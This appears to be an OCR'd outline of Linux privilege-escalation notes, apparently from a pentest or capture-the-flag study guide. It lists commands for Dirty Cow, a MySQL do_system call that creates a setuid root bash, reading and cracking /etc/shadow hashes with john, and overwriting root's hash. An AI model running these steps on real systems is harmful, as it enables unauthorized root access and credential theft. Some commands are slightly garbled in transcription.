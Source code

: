 		- Exploitation

			- Dirty Cow
			- https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54
			- $ gcc-pthread c0w.c -o c0w
			- $ ./c0w
			- $ /usr/bin/passwd 

	- Service

		- Detection

			- $ ps aux | grep "^root"
			- $ PROGRAM --version
			- $ dpkg-l | grep PROGRAM 
			- $ rpm –qa| grep PROGRAM

		- Exploitation

			- $ ./lse.sh -l 1 -i
			- exploit-db.com/exploits/1518
			- $ mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod+s /tmp/rootbash');
			- $ /tmp/rootbash -p
			- Port Forwarding

				- $ ssh -R $LOCAL_PORT:127.0.0.1:$TARGET_PORT $USERNAME@LOCAL_IP

	- Weak File Permissions

		- /etc/shadow

			- Detection

				- $ ./lse.sh -i
				- $ find /etc -maxdepth 1 -writable -type f
				- $ find /etc -maxdepth 1 -readable -type f
				- $ find / -executable -writable -type d 2> /dev/null

			- Exploitation

				- World readable?

					- $ ls -l /etc/shadow
					- $ head -n 1 /etc/shadow
					- $ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt
					- $ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
					- $ su 

				- World writable?

					- $ mkpasswd -m sha-512 newpassword
					- Replace hash

						- root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::

		- /etc/passwd

			- Detection
